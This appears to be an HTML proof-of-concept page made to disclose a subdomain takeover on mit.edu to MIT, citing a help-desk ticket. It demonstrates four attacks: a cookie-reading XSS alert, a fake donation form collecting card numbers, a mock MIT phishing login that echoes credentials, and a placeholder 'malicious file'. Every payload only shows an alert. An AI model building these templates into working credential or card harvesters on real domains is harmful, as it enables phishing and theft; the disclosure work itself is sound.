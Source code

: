 # Subdomain Takeover Proof of Concept
## By c0d3d_v3n0m (Ali Salman)

The examples below illustrate exploits that may be possible through a Subdomain Takeover Vulnerability. This vulnerability is a high-risk issue and can serve as an attack vector for further exploitation. The purpose of this Proof of Concept is to bring to notice of MIT the severity of the vulnerability. I do not intend to use this for any malignant purposes.
**Please reference: [help.mit.edu #5553262]**

If you have any queries please reach out to [c0d3d_v3n0m (Ali Salman)](mailto:alisalmanbilal@live.com)

<h2>Examples of Exploits:</h2>
<br />
<ol>
<li>
<h4>Stealing Cookies Using XSS (Cross Site Scripting)</h4>
<button type="button" onclick="xss()" class="btn btn-primary">
Click Me!
</button>
</li>
<br />
<li>
<h4>Hosting Scams</h4>
<form>
<div class="form-group w-50">
<label for="fname">First name:</label>
<input
type="text"
id="fname"
name="fname"
class="form-control"
placeholder="John"
/><br />
<label for="lname">Last name:</label>
<input
type="text"
id="lname"
name="lname"
class="form-control"
placeholder="Doe"
/><br />
<label for="donation">Donation Amount:</label>
<input
type="text"
id="donation"
name="donation"
class="form-control"
placeholder="$1000"
/><br />
<label for="card">Credit Card Number:</label>
<input
type="text"
id="card"
name="card"
class="form-control"
placeholder="1111-2222-3333-4444"
/>
</div>
<button type="button" onclick="scam()" class="btn btn-primary">
Get Scammed!
</button>
</form>
<br />
</li>
<li>
<h4>Making Believable Phishing Pages</h4>

<form action="">
<div class="form-group w-50">
<label for="username" id="loginIdLabel"
>Login Name (in the form of an email address):</label
><br />
<input
id="username"
size="40"
maxlength="100"
tabindex="11"
type="text"
accesskey="u"
path="username"
autocomplete="off"
htmlEscape="true"
placeholder="me@examplemailprovider.com"
name="username"
value="Legit MIT Username"
class="form-control"
/><br />
<label for="password" id="PINLabel">Password:</label><br />
<input
id="password"
size="40"
maxlength="100"
tabindex="12"
path="password"
type="password"
accesskey="p"
htmlEscape="true"
autocomplete="off"
name="password"
value="Legit MIT Password"
class="form-control"
/>
</div>
<button type="button" onclick="login()" class="btn btn-primary">
Login
</button>
</form>
<br />
</li>
<li>
<h4>Hosting Malicious Files</h4>
<img
src="https://opensource.com/sites/default/files/uploads/linux-toy-nyancat-animated.gif"
width="50%"
/>
<p><em>Pretend the cat is a malicious file :)</em></p>
</li>
</ol>

<script>
function set() {
document.domain = "mit.edu";
}
function xss() {
alert("A Wild Cookie Appears:\n" + document.cookie);
}
function scam() {
alert("Current Bank Balance = 0 :O");
}
function login() {
var user = document.getElementById("username").value;
var pass = document.getElementById("password").value;
alert(
`The Stolen Login Details Are:\nUsername: ${user}\nPassword: ${pass}`
);
}
</script>
</body>
</html>